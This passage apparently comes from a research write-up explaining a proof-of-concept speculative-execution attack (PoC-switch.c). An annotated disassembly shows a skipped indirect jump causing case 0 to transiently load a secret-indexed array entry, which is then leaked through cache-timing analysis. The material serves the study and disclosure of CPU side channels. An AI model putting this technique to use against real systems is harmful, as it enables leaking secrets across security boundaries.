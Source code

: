 #### 1.3.1 `PoC-switch.c` explanation:
In this example, *case 0* and *case 2* in the `switch` statement can access `user_dat` with either *secret* value (in case 0), or *nonsecret* value (in case 2). 

Since case selector `sw` is fixed to point to case 2.  The execution of switch statement should always take place at nowhere but case 2 and accesses `user_data` with non secret value as `user_dat[position_nonsecret*256]`.

However, during resolving the indirect jump inside of the switch statement, "skipping" mechanism advances the transient execution to the instructions located right after the indirect jump, i.e. case 0:

```
  // please note the dump could be different due to different compilers, compiler versions, etc
  400c32:   ff e0                   jmpq   *%rax // indirect branch that is skipped
  400c34:   90                      nop
  400c35:   90                      nop

  /* case 0 this code is erroneously executed */
  400c36:   8b 05 c4 94 2b 00       mov    0x2b94c4(%rip),%eax        # 6ba100 <position_secret>
  400c3c:   89 45 f8                mov    %eax,-0x8(%rbp)
  400c3f:   8b 45 f8                mov    -0x8(%rbp),%eax
  400c42:   c1 e0 08                shl    $0x8,%eax
  400c45:   48 98                   cltq   
  400c47:   8b 04 85 40 a1 6c 00    mov    0x6ca140(,%rax,4),%eax
  400c4e:   89 05 4c 37 31 00       mov    %eax,0x31374c(%rip)        # 7143a0 <var>
  400c54:   eb 4a                   jmp    400ca0 <main+0x120>

  /* case 1 */
  400c56:   90                      nop
  400c57:   90                      nop
  400c58:   90                      nop
  400c59:   eb 45                   jmp    400ca0 <main+0x120>
  
  /* case 2 this code is the one that must always be executed */
  400c5b:   90                      nop
  400c5c:   90                      nop
  400c5d:   90                      nop
  400c5e:   90                      nop
  400c5f:   8b 05 bb 14 2c 00       mov    0x2c14bb(%rip),%eax        # 6c2120 <position_nonsecret>
  400c65:   89 45 f8                mov    %eax,-0x8(%rbp)
  400c68:   8b 45 f8                mov    -0x8(%rbp),%eax
  400c6b:   c1 e0 08                shl    $0x8,%eax
  400c6e:   48 98                   cltq
  400c70:   8b 04 85 40 a1 6c 00    mov    0x6ca140(,%rax,4),%eax
  400c77:   89 05 23 37 31 00       mov    %eax,0x313723(%rip)        # 7143a0 <var>
  400c7d:   eb 21                   jmp    400ca0 <main+0x120>   
```

As a result, `user_dat[position_secret*256]` is cached, and the secret could be observable via cache covert channel via timing analysis. Please note, `#define CACHE_HIT_THRESHOLD 200` is hardcoded for our machine, other machines may require other cache hit threshold.

